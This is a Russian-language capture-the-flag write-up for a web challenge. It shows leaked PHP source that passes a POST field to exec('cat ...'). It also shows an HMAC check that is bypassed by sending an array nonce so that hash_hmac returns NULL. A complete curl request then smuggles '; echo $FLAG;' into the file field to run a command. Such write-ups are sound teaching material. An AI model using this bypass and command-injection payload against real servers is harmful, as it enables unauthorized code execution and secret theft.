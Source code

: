 # Web 200 / Неразговорчивый сервер

> Мы нашли бункер, в котором большое количество припасов и медикаментов. Доступ в него управляется сервером, который отказывается с нами разговаривать. Может вам удастся его разговорить?

Заходим на [http://zombie.breakingbrain.org:8080](http://zombie.breakingbrain.org:8080).

Проверяем исходный код страницы, куки, location storage и тд. Пусто.

Смотрим [http://zombie.breakingbrain.org:8080/robots.txt](http://zombie.breakingbrain.org:8080/robots.txt):

```php
User-agent: *
Disallow: index.php.old
```

Отлично, есть исходник:

```php
<?php
   // declare(strict_types=1);
   function handle(): array
   {
       if (empty($_POST['hash']) || empty($_POST['file'])) {
           header('HTTP/1.1 400 Bad Request');

           return ['warn', 'CRITICAL ERROR: Bad Request'];
       }

       $secret = getenv('FLAG');
       if (isset($_POST['nonce'])) {
           $secret = hash_hmac('sha512', $_POST['nonce'], $secret);
       }

       $hash = hash_hmac('sha512', $_POST['file'], $secret);

       if ($hash !== $_POST['hash']) {
           header('HTTP/1.1 403 Forbidden');

           return ['warn', 'CRITICAL ERROR: Access Denied'];
       }

       return ['success', exec('cat '.$_POST['file'])];
   }
?>
```

В конце кода вызывается функция `exec('cat '.$_POST['file'])`. Ага, Remote Code Execution.

Флаг присваивается переменной `$secret` из переменной среды `FLAG`.

Значит, что флаг можно добыть, если при POST запросе в поле file передать `; echo $FLAG;`.

Чтобы это сделать, нужно чтобы выражение `$hash !== $_POST['hash']` было ложным, а это сделать не так уж просто, т.к. тут строгая проверка и мы не знаем `$secret`.

Идём читать документацию по `hash_hmac`: [https://www.php.net/manual/en/function.hash-hmac.php](https://www.php.net/manual/en/function.hash-hmac.php). Вроде ничего особенного, но ниже есть комментарии и первый из них такой:

```php
// Very important notice, if you pass array to $data, php will generate a Warning, return a NULL and continue your application. Which I think is critical vulnerability as this function used to check authorisation typically.
// Example:
<?php
var_dump(hash_hmac('sha256', [], 'secret'));
WARNING hash_hmac() expects parameter 2 to be string, array given on line number 3
NULL
?>
// Of course not documented feature.
```

То есть, если мы в поле `nonce` передадим массив, то `hash_hmac` вернет `false` и это значение присвоится переменной `$secret`:

```php
$secret = hash_hmac('sha512', $_POST['nonce'], $secret);
```

Далее вычисляется хэш от `$_POST['file']` с ключом `$secret`:

```php
$hash = hash_hmac('sha512', $_POST['file'], $secret);
```

Оба значения мы знаем, поэтому вычислить нужный хэш не составляет труда (на своей машине):

```php
$ php -r "echo hash_hmac('sha512', '; echo \$FLAG;', NULL);"
cf32f1da8b06a820b031947f62d92d194eb4015b6b500b48623551489bf274ea16932354c8d8d3a034c55b84029251f9d21f8493de3b53bd1ef74dcfb88f320c
```

Этот хэш мы указываем при запросе в поле `hash`, чтобы условие не выполнилось:

```php
if ($hash !== $_POST['hash']) {
```

Выполняем запрос:

```bash
curl \
	--request POST 'http://zombie.breakingbrain.org:8080' \
	--form 'nonce[]=""' \
	--form 'file="; echo $FLAG;"' \
	--form 'hash="cf32f1da8b06a820b031947f62d92d194eb4015b6b500b48623551489bf274ea16932354c8d8d3a034c55b84029251f9d21f8493de3b53bd1ef74dcfb88f320c"'
```

Результат:

```html
<body style="background: black">
  <div>
    <h2 class="success">'ITF{d3adlyBugInPHP}'</h2>
  </div>
  <!-- follow the robots -->
</body>
```

Флаг наш.

